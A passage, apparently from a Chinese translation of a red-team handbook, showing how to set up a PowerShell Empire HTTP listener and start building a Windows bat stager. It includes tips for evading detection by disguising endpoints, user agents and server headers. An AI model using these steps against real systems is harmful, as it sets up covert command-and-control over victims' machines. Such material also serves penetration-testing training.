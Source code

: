 - 选择你的监听器类型（我们实验使用的是 HTTP）

```
uselistener [按两次 tab 键来查阅所有类型的监听器]
uselistener http
```

- 查看监听器的全部配置信息

```
info
```

- 设置以下内容（即设置KillDate 12/12/2020）

```
KillDate - 规定一个结束时间然后自动清理代理
DefaultProfile - 确保更改所有端点（即/admin/get.php,/news.php）。你可以根据需要制作它们，例如/seriously/notmalware.php
DefaultProfile - 确保也更改你的用户代理。 我一般是查看使用过的顶级用户代理并选择从中选择一个。
Host - 更改为通过端口443的 HTTPS
CertPath - 添加 SSL 证书的路径
UserAgent - 将其更改为你的常用用户代理
Port - 设置为443
ServerVersion - 将其更改为另一个常见的服务器 Header
```

- 当你完成所有这些，开启你的监听器

```
execute
```

<img src="img/chapter_1/1-8.PNG" width = "600" height = "380" alt="图片名称" align=center />


#### 配置 Payload

payload 是将在受害者系统上运行的实际恶意软件。 这些 payload 可以在 Windows，Linux 和 OSX 中运行，但 Empire 以其基于 PowerShell Windows 的 Payload 而闻名：

- 进入主菜单

```
main
```

- 为 OSX，Windows，Linux 创建可用的 stager。 我们将创建一个简单的 bat 文件作为示例，但实际上你可以为 Office 文件创建宏或者为一个 USB 橡皮鸭创建 payload（译者注： USB 橡皮鸭/USB RUBBER DUCKY 是最早的按键注入工具）

```
usestager [按两次tab键来查阅所有不同的类型]
usestager windows/launcher_bat
```

- 查看所有设置
```
info
```

- 配置所有 Settings
